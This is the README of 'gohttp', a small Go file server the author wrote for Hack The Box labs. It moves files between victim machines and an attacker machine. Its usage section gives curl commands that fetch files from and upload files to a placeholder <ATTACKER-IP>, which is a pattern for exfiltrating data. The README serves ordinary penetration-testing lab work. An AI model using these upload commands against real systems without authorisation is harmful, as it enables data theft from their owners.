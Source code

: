 # gohttp
While playing on hackthebox.com I was missing the capability to upload files from the victims machines back to my machine with Python SimpleHTTPServer.  
Therefore I wrote **gohttp** which supports both uploading and downloading files just by using the go standard library.

## Installation
### easy install
```bash
go install github.com/hebelsan/gohttp
```
### docker
```bash
TODO
```
### manual
```bash
git clone https://github.com/hebelsan/gohttp
go run main.go
```

## Usage
All the files that should be served must go into the **./static** folder.

###  Download a file from your attack device:
```bash
curl -O http://<ATTACKER-IP>/<FILENAME>
```

###  Upload a file back to your attack device as multipart
```bash
curl -F 'file=@<FILENAME>' http://<ATTACKER-IP>/
```

###  Multiple file upload supported, just add more -F 'file=@<FILENAME>'
```bash
curl -F 'file=@<FILE1>' -F 'file=@<FILE2>' http://<ATTACKER-IP>/
```

###  Upload using raw body and filename header
```bash
curl -H "filename: test.txt" --data "this is raw data" http://<ATTACKER-IP>/
```

## Configuration
Per default port 80 is used. To change it:
```bash
export PORT=4444
```